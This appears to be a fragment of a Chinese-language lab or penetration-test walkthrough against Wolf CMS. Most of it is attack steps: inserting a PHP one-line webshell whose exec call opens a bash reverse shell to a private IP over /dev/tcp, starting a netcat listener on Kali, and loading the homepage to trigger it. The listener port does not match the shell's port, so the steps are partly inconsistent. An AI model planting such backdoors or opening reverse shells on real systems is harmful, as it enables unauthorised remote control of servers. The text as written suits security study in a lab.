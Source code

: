 

把PHP一句话木马插入到文件中：

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.125.133/1234 0>&1'");
```

![image-20230509153604728](./assets/image-20230509153604728.png)





kali 开启监听：

```
nc -lvnp 4444
```



访问 wolfcms 首页 即可获取到shell

![image-20230509153633854](./assets/image-20230509153633854.png)
